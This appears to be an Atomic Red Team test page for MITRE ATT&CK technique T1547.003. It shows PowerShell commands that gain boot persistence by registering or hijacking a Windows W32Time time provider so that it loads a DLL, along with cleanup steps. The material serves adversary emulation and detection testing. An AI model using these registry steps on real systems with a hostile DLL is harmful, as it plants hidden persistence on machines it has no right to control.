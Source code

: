 # T1547.003 - Time Providers
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1547/003)
<blockquote>Adversaries may abuse time providers to execute DLLs when the system boots. The Windows Time service (W32Time) enables time synchronization across and within domains. (Citation: Microsoft W32Time Feb 2018) W32Time time providers are responsible for retrieving time stamps from hardware/network resources and outputting these values to other network clients. (Citation: Microsoft TimeProvider)

Time providers are implemented as dynamic-link libraries (DLLs) that are registered in the subkeys of  <code>HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\W32Time\TimeProviders\</code>. (Citation: Microsoft TimeProvider) The time provider manager, directed by the service control manager, loads and starts time providers listed and enabled under this key at system startup and/or whenever parameters are changed. (Citation: Microsoft TimeProvider)

Adversaries may abuse this architecture to establish persistence, specifically by registering and enabling a malicious DLL as a time provider. Administrator privileges are required for time provider registration, though execution will run in context of the Local Service account. (Citation: Github W32Time Oct 2017)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Create a new time provider](#atomic-test-1---create-a-new-time-provider)

- [Atomic Test #2 - Edit an existing time provider](#atomic-test-2---edit-an-existing-time-provider)


<br/>

## Atomic Test #1 - Create a new time provider
Establishes persistence by creating a new time provider registry key under HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProvider.
The new time provider will point to a DLL which will be loaded after the w32time service is started. The DLL will then create the file AtomicTest.txt
in C:\Users\Public\ as validation that the test is successful.

Payload source code: https://github.com/tr4cefl0w/payloads/tree/master/T1547.003/

**Supported Platforms:** Windows


**auto_generated_guid:** df1efab7-bc6d-4b88-8be9-91f55ae017aa






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
net stop w32time
Copy-Item $PathToAtomicsFolder\T1547.003\bin\AtomicTest.dll C:\Users\Public\AtomicTest.dll
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\AtomicTest" /t REG_SZ /v "DllName" /d "C:\Users\Public\AtomicTest.dll" /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\AtomicTest" /t REG_DWORD /v "Enabled" /d "1" /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\AtomicTest" /t REG_DWORD /v "InputProvider" /d "1" /f
net start w32time
```

#### Cleanup Commands:
```powershell
net stop w32time
reg delete "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\AtomicTest" /f
rm -force C:\Users\Public\AtomicTest.dll
net start w32time
```





<br/>
<br/>

## Atomic Test #2 - Edit an existing time provider
Establishes persistence by editing the NtpServer time provider registry key under HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProvider.
The time provider will point to a DLL which will be loaded after the w32time service is started. The DLL will then create the file AtomicTest.txt
in C:\Users\Public\ as validation that the test is successful.

Payload source code: https://github.com/tr4cefl0w/payloads/tree/master/T1547.003/

**Supported Platforms:** Windows


**auto_generated_guid:** 29e0afca-8d1d-471a-8d34-25512fc48315






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
net stop w32time
Copy-Item $PathToAtomicsFolder\T1547.003\bin\AtomicTest.dll C:\Users\Public\AtomicTest.dll
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\NtpServer" /t REG_SZ /v "DllName" /d "C:\Users\Public\AtomicTest.dll" /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\NtpServer" /t REG_DWORD /v "Enabled" /d "1" /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\NtpServer" /t REG_DWORD /v "InputProvider" /d "1" /f
net start w32time
```

#### Cleanup Commands:
```powershell
net stop w32time
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\NtpServer" /t REG_SZ /v "DllName" /d "C:\Windows\SYSTEM32\w32time.DLL" /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\NtpServer" /t REG_DWORD /v "Enabled" /d "0" /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\NtpServer" /t REG_DWORD /v "InputProvider" /d "0" /f
rm -force C:\Users\Public\AtomicTest.dll
net start w32time
```





<br/>

